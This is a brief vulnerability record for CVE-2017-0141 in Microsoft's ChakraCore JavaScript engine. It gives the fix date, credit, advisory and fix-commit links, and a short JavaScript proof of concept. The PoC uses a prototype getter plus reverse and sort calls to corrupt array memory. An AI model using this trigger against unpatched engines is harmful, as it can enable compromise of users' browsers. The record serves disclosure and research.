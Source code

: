 # CVE-2017-0141

- Fix: Mar 2017
- Credit: Semmle Inc

## PoC

PoC from [tunz](https://github.com/tunz)

```javascript
let arr = [];
arr[1000] = 321321;
let proto = {};
Object.defineProperty(proto, "0", {get: function() {
    arr[2000] = 0x41414141;
    return 123;
}});

arr.__proto__ = proto;
Array.prototype.reverse.call(arr);
Array.prototype.sort.call(arr);
```

## Reference

- [Microsoft (MS17-007)](https://technet.microsoft.com/en-us/library/security/ms17-007.aspx)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/db504eba489528434dfb56257b0f202209741fe9)
